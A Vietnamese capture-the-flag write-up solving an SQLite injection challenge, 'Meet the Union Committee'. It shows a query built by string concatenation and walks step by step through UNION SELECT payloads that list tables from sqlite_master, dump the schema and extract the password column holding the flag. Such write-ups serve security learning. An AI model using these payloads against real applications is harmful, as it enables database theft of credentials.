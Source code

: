 # UNION - Meet the Union Committee
# TEAM : DUY - ζp33d_0∫\_Ψ1m3
# TYPE : SQLITE INJECTION

Giao diện trang web 
![1](1.png)

Click vào hình bất kỳ, http://34.105.202.19:1336/?id=2
- Thử với id = 2'
![2](2.png)
![3](3.png)


Với dòng error cursor.execute("SELECT id, name, email FROM users WHERE id=" + params!["id"])
giúp ta xác định đoạn sql này lấy ra dữ liệu từ columns id,name,email từ table users qua id


- Thử với id=2 or true
![4](4.png)
OK, dữ liệu lấy ra ở cột name sẽ được fetch ra hết trong khi cột id,email không xuất hiện

Lợi dụng điều này ta có thể fetch dữ liệu trong table qua cột select thứ 2
```id = 2 union select null,email,null from users```
![5](5.png)

Tuy nhiên không có dữ liệu chúng ta cần tìm vì vậy cần select ra những tên cột có trong bảng


```2 union SELECT null,group_concat(name),null FROM sqlite_master WHERE type = "table"```

sqlite_master là "schema table" chứa schema của SQLite database, thông thường sẽ có cấu trúc thế này

```
CREATE TABLE sqlite_schema(
  type text,
  name text,
  tbl_name text,
  rootpage integer,
  sql text
);
```

Với câu query trên chúng ta dump ra được trường name của tất cả table có trong database 
![6](6.png)

OK, vậy ta có được 3 table là users,sqlite_sequence,comments

Để xem cấu trúc của 3 table này ta query như sau (đổi trường name thành trường sql):

```2 union SELECT null,group_concat(sql),null FROM sqlite_master WHERE type = "table"```

![7](7.png)

Sau khi biết được các cột trong từng table mình thấy nghi ngờ về trường password nên dump ra xem thử :v

```id = 2 union select null,password,null from users```

![8](8.png)

Ta-da, flag : union{uni0n_4ll_s3l3ct_n0t_4_n00b}

